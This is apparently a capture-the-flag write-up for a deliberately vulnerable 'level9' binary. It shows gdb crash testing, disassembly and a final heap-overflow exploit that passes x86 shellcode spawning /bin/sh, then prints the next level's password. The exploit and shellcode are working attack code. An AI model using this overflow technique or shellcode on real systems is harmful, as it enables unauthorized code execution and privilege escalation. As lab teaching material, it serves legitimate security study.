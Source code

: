 ## Reverse

We got the bin level9 (see source.c)

There is a memcpy, so we can perform a buffer overflow

## Test the overflow

```sh
(gdb) run `python -c "print('A'*200)"`
Starting program: /home/user/level9/level9 `python -c "print('A'*200)"`

Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) info registers
eax            0x41414141       1094795585
ecx            0x41414141       1094795585
edx            0x804a0d4        134521044
ebx            0x804a078        134520952
esp            0xbffff650       0xbffff650
ebp            0xbffff678       0xbffff678
esi            0x0      0
edi            0x0      0
eip            0x8048682        0x8048682 <main+142>
eflags         0x210287 [ CF PF SF IF RF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
```

We seg. fault but there is a problem, we haven't overwrite `eip` but `eax` and `ecx` instead

## Check what we can do with eax an ecx

```sh
(gdb) disas main
Dump of assembler code for function main:
	0x080485f4 <+0>:     push   ebp
	0x080485f5 <+1>:     mov    ebp,esp
	0x080485f7 <+3>:     push   ebx
	0x080485f8 <+4>:     and    esp,0xfffffff0
	0x080485fb <+7>:     sub    esp,0x20
	0x080485fe <+10>:    cmp    DWORD PTR [ebp+0x8],0x1
	0x08048602 <+14>:    jg     0x8048610 <main+28>
	0x08048604 <+16>:    mov    DWORD PTR [esp],0x1
	0x0804860b <+23>:    call   0x80484f0 <_exit@plt>
	0x08048610 <+28>:    mov    DWORD PTR [esp],0x6c
	0x08048617 <+35>:    call   0x8048530 <_Znwj@plt>
	0x0804861c <+40>:    mov    ebx,eax
	0x0804861e <+42>:    mov    DWORD PTR [esp+0x4],0x5
	0x08048626 <+50>:    mov    DWORD PTR [esp],ebx
	0x08048629 <+53>:    call   0x80486f6 <_ZN1NC2Ei>
	0x0804862e <+58>:    mov    DWORD PTR [esp+0x1c],ebx
	0x08048632 <+62>:    mov    DWORD PTR [esp],0x6c
	0x08048639 <+69>:    call   0x8048530 <_Znwj@plt>
	0x0804863e <+74>:    mov    ebx,eax
	0x08048640 <+76>:    mov    DWORD PTR [esp+0x4],0x6
	0x08048648 <+84>:    mov    DWORD PTR [esp],ebx
	0x0804864b <+87>:    call   0x80486f6 <_ZN1NC2Ei>
	0x08048650 <+92>:    mov    DWORD PTR [esp+0x18],ebx
	0x08048654 <+96>:    mov    eax,DWORD PTR [esp+0x1c]
	0x08048658 <+100>:   mov    DWORD PTR [esp+0x14],eax
	0x0804865c <+104>:   mov    eax,DWORD PTR [esp+0x18]
	0x08048660 <+108>:   mov    DWORD PTR [esp+0x10],eax
	0x08048664 <+112>:   mov    eax,DWORD PTR [ebp+0xc]
	0x08048667 <+115>:   add    eax,0x4
	0x0804866a <+118>:   mov    eax,DWORD PTR [eax]
	0x0804866c <+120>:   mov    DWORD PTR [esp+0x4],eax
	0x08048670 <+124>:   mov    eax,DWORD PTR [esp+0x14]
	0x08048674 <+128>:   mov    DWORD PTR [esp],eax
	0x08048677 <+131>:   call   0x804870e <_ZN1N13setAnnotationEPc>
	0x0804867c <+136>:   mov    eax,DWORD PTR [esp+0x10]
	0x08048680 <+140>:   mov    eax,DWORD PTR [eax]
	=> 0x08048682 <+142>:   mov    edx,DWORD PTR [eax]
	0x08048684 <+144>:   mov    eax,DWORD PTR [esp+0x14]
	0x08048688 <+148>:   mov    DWORD PTR [esp+0x4],eax
	0x0804868c <+152>:   mov    eax,DWORD PTR [esp+0x10]
	0x08048690 <+156>:   mov    DWORD PTR [esp],eax
	0x08048693 <+159>:   call   edx
	0x08048695 <+161>:   mov    ebx,DWORD PTR [ebp-0x4]
	0x08048698 <+164>:   leave
	0x08048699 <+165>:   ret
End of assembler dump.
```

We see that we seg fault at `0x08048682` because we try to 	`dereference eax` that have been overwrite and is equal to `0x41414141`

So we can do some think with `eax`

### Check the value of eax

```sh
Starting program: /home/user/level9/level9 $(python -c "print 'BBBB' + 'A' * 104 + 'AAAA'") $(python -c "print '\x90'*1000 + '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'")

Breakpoint 1, 0x0804867c in main ()
(gdb) info registers
eax            0x804a00c        134520844
ecx            0x41414141       1094795585
edx            0x804a07c        134520956
ebx            0x804a078        134520952
esp            0xbffff280       0xbffff280
ebp            0xbffff2a8       0xbffff2a8
esi            0x0      0
edi            0x0      0
eip            0x804867c        0x804867c <main+136>
eflags         0x200283 [ CF SF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
(gdb) x 0x804a00c
0x804a00c:      0x42424242
```

### Check the instructions of eax
```sh
	0x0804867c <+136>:   mov    eax,DWORD PTR [esp+0x10] # eax is the av[1] + offset 0
	0x08048680 <+140>:   mov    eax,DWORD PTR [eax] # eax is the av[1] + offset 108
	0x08048682 <+142>:   mov    edx,DWORD PTR [eax] # set the value of eax in edx
	0x08048684 <+144>:   mov    eax,DWORD PTR [esp+0x14]
	0x08048688 <+148>:   mov    DWORD PTR [esp+0x4],eax
	0x0804868c <+152>:   mov    eax,DWORD PTR [esp+0x10]
	0x08048690 <+156>:   mov    DWORD PTR [esp],eax
	0x08048693 <+159>:   call   edx # call edx so the value of eax
``` 

We set `av[1] + offset 0` at `0xbffff8c4`, the address of `av[2]`

and `av[1] + offset 108` at `0x0804a00c`, the value of `eax` which is the first `eax` (av[2] + offset 0)

So at the call of `edx` at `0x08048693`

- edx == 2nd eax == av[1] + 108 == 1st eax
- call edx == call the value of av[1] + 108 == call eax == value of av[2]

So at the call of the 2nd eax at `0x08048693`, that as been transfered to edx, will call the value of the shellcode `\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80` in av[2] that will be executed

## Exploit

```sh
./level9 $(python -c "print '\xc4\xf8\xff\xbf' + 'A' * 104 + '\x0c\xa0\x04\x08'") $(python -c "print '\x90'*1000 + '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'")
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```
